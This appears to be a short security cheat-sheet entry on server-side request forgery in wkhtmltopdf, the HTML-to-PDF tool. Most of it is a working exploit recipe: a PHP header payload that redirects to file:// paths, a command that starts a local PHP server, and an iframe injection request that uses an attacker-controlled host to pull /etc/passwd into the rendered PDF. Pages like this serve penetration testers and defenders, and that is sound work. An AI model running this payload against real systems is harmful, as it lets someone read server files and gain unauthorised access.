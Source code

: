```yaml
---
title: wkhtmltopdf SSRF
description: wkhtmltopdf is a command line tool to render HTML into PDF using Qt WebKit. It is vulnerable to SSRF.
tags:
    - Web
refs:
date: 2023-04-08
draft: false
---
```


## Exploitation

Create a PHP payload to read local file.

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Then start web server in local machine.

```bash
php -S 0.0.0.0:8000
```

Send request to where wkhtmltopdf is affected. For example,

```bash
/htmltopdf?item=<iframe src=http://10.0.0.1:8000/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

Now we can see the system users list via a generated PDF.